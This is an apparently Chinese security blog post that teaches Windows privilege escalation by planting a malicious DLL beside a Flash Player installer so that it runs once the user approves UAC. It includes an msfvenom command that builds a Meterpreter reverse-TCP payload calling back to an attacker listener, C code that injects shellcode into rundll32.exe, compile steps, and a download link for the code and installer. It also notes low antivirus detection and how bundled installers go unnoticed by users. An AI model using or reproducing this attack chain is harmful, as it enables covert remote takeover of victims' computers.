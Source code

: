 > 原文链接: https://www.anquanke.com//post/id/82441 


# 借用UAC完成的提权思路分享


                                阅读量   
                                **97398**
                            
                        |
                        
                                                                                    



[![](https://p0.ssl.qhimg.com/t01c258a9501738b34e.png)](https://p0.ssl.qhimg.com/t01c258a9501738b34e.png)

**0x00 背景**

UAC(User Account Control,用户帐户控制)是微软为提高系统安全而在Windows Vista中引入的新技术,它要求用户在执行可能会影响计算机运行的操作或执行更改影响其他用户的设置的操作之前,提供权限或管理员‌密码。也就是说一旦用户允许启动的应用程序通过UAC验证,那么这个程序也就有了管理员权限。如果我们通过某种方式劫持了通过用户UAC验证的程序,那么相应的我们的程序也就实现了提权的过程。

<br>

**0x01 提权过程概述**

首先我们找到目标程序,查找其动态加载的dll文件然后将其替换掉,插入我们包含shellcode的dll文件,这样用户在安装此文件的时候就会调用我们的dll文件,并执行我们的shellcode代码。同时为了防止程序崩掉导致我们的代码退出,采用注入的方式保证shellcode的稳定执行。在此过程中,如果目标程序请求UAC权限,对于用户来说这是一个正常的安装文件,一旦通过UAC验证,相应我们的shellcode也完成了提权过程。替换安装包dll文件这种行为太过于敏感,其实最后实现的方式是找到目标程序需要加载的,并且当前目录又不存在的需要联网下载的dll文件,我们只需要在该目录下放一个同名dll文件即可。

<br>

**0x02 实验环境**

```
Kali Debian7
```

Kali集成Metasploit等漏洞利用工具,方便提取shellcode和反弹TCP连接。最好安装一个Mingw-w64用于编译c代码。

```
windows7 x64
```

主要的目标测试环境。

```
Procmon.exe
```

Procmon是微软出的一款强大的Windows监视工具,不但可以监视进程/线程,还可以监控到文件系统,注册表的变化等。

```
install_flashplayer15x32_mssd_aaa_aih
```

这里我们以flashplayer安装文件作为目标文件,版本为15x32_mssd_aaa_aih,可自行下载,或者从最后的打包附件中找到。

<br>

**0x03 详细提权过程**

查找可劫持的dll文件

首先我们在win7系统下先打开procmon监控软件,清除一下日志信息,然后运行我们的目标文件install_flashplayer15x32_mssd_aaa_aih,运行过后会弹出UAC选项,需要用户确认授权。

[![](https://p5.ssl.qhimg.com/t0115a29d3592548f76.jpg)](https://p5.ssl.qhimg.com/t0115a29d3592548f76.jpg)

这里我们点“是”,然后安装包开始安装并自删除,并从服务器下载所需的文件,这时候就可以关掉了,因为我们只需要看该软件包都加载了哪些dll文件。

看下Procmon.exe记录所有行为

[![](https://p3.ssl.qhimg.com/t0159128e24eb6d0749.jpg)](https://p3.ssl.qhimg.com/t0159128e24eb6d0749.jpg)

信息量太大,我们需要过滤出有用的信息。

首先是只看我们目标进程的信息,添加过滤规则:

```
Process Name is install_flashplayer15x32_mssd_aaa_aih
```

然后是过滤掉加载系统的dll文件,只看安装包当前目录下加载的dll文件,我这里安装包存放在dllhijack文件夹下,添加过滤规则:

```
Path contains dllhijack
```

并且该加载dll不存在,需要联网从服务器下载,最后再添加一个过滤规则:

```
Result is NAME NOT FOUND
```

三个过滤规则如下所示:

[![](https://p5.ssl.qhimg.com/t0149a0aef7bde1bcd4.jpg)](https://p5.ssl.qhimg.com/t0149a0aef7bde1bcd4.jpg)

经过三个规则过滤后,留下的信息就很明显了,如下图所示:

[![](https://p3.ssl.qhimg.com/t01153b6c6ea1911ff9.jpg)](https://p3.ssl.qhimg.com/t01153b6c6ea1911ff9.jpg)

上边所列的dll文件都是会尝试加载,并且找不到,会联网进行下载的dll文件,因此,我们的目标就是劫持这些dll文件,也不需要替换,直接将我们的dll文件放在安装包同目录即可,这也是为什么选择这个安装程序测试的原因。如果选择其他安装包测试的,最好也是选择这种联网安装类型的,所有文件都从服务器拉取,如果安装程序没有对这些从服务器拉取的文件进行效验,就能够被劫持。

**编写exploit**

找到劫持了dll文件后,我们进入Debian系统用msf生成shellcode,这里我们选择反弹tcp的shellcode,需要知道服务器ip地址和监听端口,这里也选择Debian系统作为服务器,ifconfig查看下ip,设置监听端口为9000,最后执行如下命令生成shellcode:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.127.133 LPORT=9000 -f c
```

[![](https://p3.ssl.qhimg.com/t01b869d8640b017926.jpg)](https://p3.ssl.qhimg.com/t01b869d8640b017926.jpg)

为了防止程序挂掉或者退出导致shellcode也跟着退出,采用注入的方式,将shellcode注入rundll32.exe进程,然后连接远程端口。服务器监听该端口,一旦有请求就建立会话连接,注入关键代码:

```
if (CreateProcess(0, "rundll32.exe", 0, 0, 0, CREATE_SUSPENDED | IDLE_PRIORITY_CLASS, 0, 0, &amp;si, &amp;pi)) `{`
    ctx.ContextFlags = CONTEXT_INTEGER | CONTEXT_CONTROL;
    GetThreadContext(pi.hThread, &amp;ctx);    
    ep = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, SCSIZE, MEM_COMMIT, PAGE_EXECUTE_READWRITE);    
    WriteProcessMemory(pi.hProcess, (PVOID)ep, &amp;code, SCSIZE, 0);    
    #ifdef _WIN64
            ctx.Rip = (DWORD64)ep;
    #else
            ctx.Eip = (DWORD)ep;
    #endif    
    SetThreadContext(pi.hThread, &amp;ctx);    
    ResumeThread(pi.hThread);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
`}`
```

最后将程序编译,这里编译直接在Debian系统下用Mingw-w64编译,命令入下:

```
root@idhyt:~/maldemo# i686-w64-mingw32-gcc template.c -o template.dll –shared
root@idhyt:~/maldemo# file template.dll
```

template.dll: PE32 executable (DLL) (console) Intel 80386, for MS Windows

将编译好的template.dll拷贝到win7系统中备用。

debian系统设置服务器并监听9000端口,所有命令如下:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01008c7e5c3d91e613.jpg)

**提权**

将编译的template.dll文件放在install_flashplayer15x32_mssd_aaa_aih目录下,从我们监控到的可劫持dll文件中选择一个,这里我选择dhcpcsv6.dll。将我们的dll文件改名为dhcpcsvc6.dll,其他dll文件可自行尝试。之后重新运行安装包,弹出UAC选项后点“是”。

之后我们在debian系统的服务端会看到我们已经监听到了这个端口,看下会话信息:

[![](https://p5.ssl.qhimg.com/t01142a1f00111c6c3d.jpg)](https://p5.ssl.qhimg.com/t01142a1f00111c6c3d.jpg)

查看下当前uid,然后执行getsystem命令权限:

[![](https://p5.ssl.qhimg.com/t0193d4ad9e89670418.jpg)](https://p5.ssl.qhimg.com/t0193d4ad9e89670418.jpg)

可以看到已经提权成功,然后进入shell查看下文件,运行个计算器什么的

[![](https://p3.ssl.qhimg.com/t01307d2925f7135f9a.jpg)](https://p3.ssl.qhimg.com/t01307d2925f7135f9a.jpg)

<br>

**0x04 总结**

UAC很大程度上减少PC受到恶意软件侵害的机会,但是并不表明是不可被利用的。通过这种dll劫持方式,可以将dll文件设置为隐藏,并将正常的软件(如adobe flash player)打包给用户,用户基本是察觉不到的,一旦用户正常安装,机器就会被攻击者控制。一些病毒通过劫持lpk.dll等系统dll文件造成的病毒体执行,也是利用这种思路,但是替换系统文件这种敏感操作,基本逃不过杀软的监控了。

各杀软厂商对shellcode这种检测和防御也不够严格,直接从msf中提取的shellcode,没做任何变形和过杀软处理,然后virustotal网站上扫描结果如下:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012135a5219143746e.png)

可以看出总共用了56中杀毒软件扫描,报毒的只有16个,然后看下国内的杀软:

[![](https://p2.ssl.qhimg.com/t01fde64c47cb346de2.png)](https://p2.ssl.qhimg.com/t01fde64c47cb346de2.png)

国内杀软全都没有报毒,所以通过dll劫持提权还是有很大的使用空间。   代码和安装包上传百度网盘:链接: [http://pan.baidu.com/s/1ntAbfQD](http://pan.baidu.com/s/1ntAbfQD) 密码: rmsq 解压码:ks123456
